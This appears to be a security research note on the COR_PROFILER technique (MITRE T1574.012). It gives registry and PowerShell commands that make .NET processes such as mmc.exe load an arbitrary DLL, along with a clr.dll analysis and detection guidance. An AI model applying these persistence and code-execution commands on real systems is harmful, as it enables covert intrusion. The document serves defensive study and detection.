 # Hijack Execution Flow COR_PROFILER

## Keynotes
Before any DLL execution done:  
`COR_ENABLE_PROFILING` must be `1`  
`COR_PROFILER_PATH` must be a valid `DLL` file since it will be trigger by `LoadLibrary()` later

## Execution
Two ways to add COR_* related Envrionment
- Registry based
- Session based (cmd.exe/powershell.exe prompt)

### Registry based
### Powershell
HKCU
```
New-ItemProperty -Path HKCU:\Environment -Name "COR_ENABLE_PROFILING" -PropertyType String -Value "1" -Force
New-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER" -PropertyType String -Value "{<CLISD>}" -Force
New-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER_PATH" -PropertyType String -Value <FULL_FILE_PATH> -Force
```
HKLM
```
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_ENABLE_PROFILING" -PropertyType String -Value "1" -Force
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER" -PropertyType String -Value "{<CLSID>}" -Force 
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER_PATH" -PropertyType String -Value <FULL_FILE_PATH> -Force
```

### Windows Command Line
HKCU
```
reg add "HKCU\Environment" /v "COR_ENABLE_PROFILING" /t REG_SZ /d "1" /f
reg add "HKCU\Environment" /v "COR_PROFILER" /t REG_SZ /d "{<CLSID>}" /f
reg add "HKCU\Environment" /v "COR_PROFILER_PATH" /t REG_SZ /d "<FULL_FILE_PATH>" /f
```
HKLM
```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v "COR_ENABLE_PROFILING" /t REG_SZ /d "1" /f
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v "COR_PROFILER" /t REG_SZ /d "{<CLSID>}" /f
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v "COR_PROFILER_PATH" /t REG_SZ /d "<FULL_FILE_PATH>" /f
```

### Session based / Registry free
### Powershell: Session based  
```
$env:COR_ENABLE_PROFILING = 1  
$env:COR_PROFILER = '{<CLSID>}'  
$env:COR_PROFILER_PATH = '<FULL_PATH_TO_DLL>'
```

### Powershell: Permanent add $env in PS (USER)
```
[System.Environment]::SetEnvironmentVariable('COR_ENABLE_PROFILING', 1, [System.EnvironmentVariableTarget]::User)  
[System.Environment]::SetEnvironmentVariable('COR_PROFILER_PATH', '<FULL_PATH_TO_DLL>', [System.EnvironmentVariableTarget]::User)  
[System.Environment]::SetEnvironmentVariable('COR_PROFILER', '{<CLSID>}', [System.EnvironmentVariableTarget]::User)
```

## Analysis
### General Flow
The binary will loads `clr.dll` and get the config of `COR_PROFILER`. After going through few functions. It will leads to `LoadLibrary()` that will load the DLL that declared in the `COR_PROFILER_PATH`

![getconfigvalue_COR.png](./Image_T1574.012/getconfigvalue_COR.PNG)

### Function chain inside `clr.dll` that will trigger the loading of DLL declared in `COR_PROFILER_PATH`
```
ProfilingAPIUtility::InitializeProfiling()   ProfilingAPIUtility::AttemptLoadProfilerForStartup() 
CLRConfig::GetConfigValue() COR_ENABLE_PROFILING/COR_PROFILER/COR_PROFILER_PATH  
ProfilingAPIUtility::LoadProfiler()  
EEToProfInterfaceImpl::Init()  
EEToProfInterfaceImpl::CreateProfiler  
CoCreateProfiler  
FakeCoCreateInstanceEx()  
FakeCoCallDllGetClassObject()  
LoadLibrary()
```

### For mmc.exe case
The struct of `CSnapInReference` that passed into `mmcndmgr.dll -> CreateSnapIn()` will decide whether `clr.dll` will be load and getting config of `COR_PROFILER`

Load clr.dll if `CFxSnapInReference` was loadded  
![snapin_clr_dll.png](./Image_T1574.012/snapin_clr_dll.png)

Does not load clr.dll if **NOT** `CFxSnapInReference` loaded  
![snapin_no_clr_dll.png](./Image_T1574.012/snapin_no_clr_dll.png)

### Register based
When the .msc loads one of the FX:{CLSID}, it will load of `clr.dll` and leads to `LoadLibrary()` of the DLL in `COR_PROFILER_PATH`.  

According to [Microsoft Doc](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/legacy/ms692747(v=vs.85)), FX is a prefix that is used to distinguish MMC 3.0 snap-ins from the older snap-ins.  

Those FX:{CLSID} can be found in registry key `HKLM\SOFTWARE\Microsoft\MMC\SnapIns`

### Session based / Registry Free
- The prompt needs to execute those dotnet binary in same session
- Any dotnet binary will trigger the check for COR_* related environment variables

## Hunt
### List of .msc available  
http://www.auditiait.es/en/list-of-commands-msc/  
https://ss64.com/nt/syntax-mmc.html
### Enumerate more .msc in your machine 
`dir c:\windows\*.msc /s /b /p`

### List of .msc (Not limited to) 
These .msc will trigger the loading of preload of COR_PROFILER
- comexp.msc
- compmgmt.msc
- eventvwr.msc
- gpedit.msc
- secpol.msc
- taskschd.msc
- tpm.msc
- wf.msc
- devmoderunasuserconfig.msc (Need UAC)

## Detection
### Process
mmc.exe that loads clr.dll
![mmc_dotnet_process_hacker.png](./Image_T1574.012/mmc_dotnet_process_hacker.PNG)

### Process chain
mmc.exe -> INTERSTING.msc

### Registry Key
Any COR_* related registry name found in:  
```
HKCU:\Environment  
HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment
```
Remember `COR_ENABLE_PROFILING` must be `1` and 
investigate binary inside `COR_PROFILER_PATH`

### Windows Event
Sourcetype: Application  
Event ID: 1022 shows error (For mmc.exe)  
Note: It might contain lots of FPs
![winevtlog_application_error_1022.png](./Image_T1574.012/winevtlog_application.png)

Sourcetype: Powershell
Note: Powershell script block if possible

## References
https://learn.microsoft.com/en-us/previous-versions/windows/desktop/legacy/ms692747(v=vs.85)  
http://www.auditiait.es/en/list-of-commands-msc/  
https://ss64.com/nt/syntax-mmc.html  
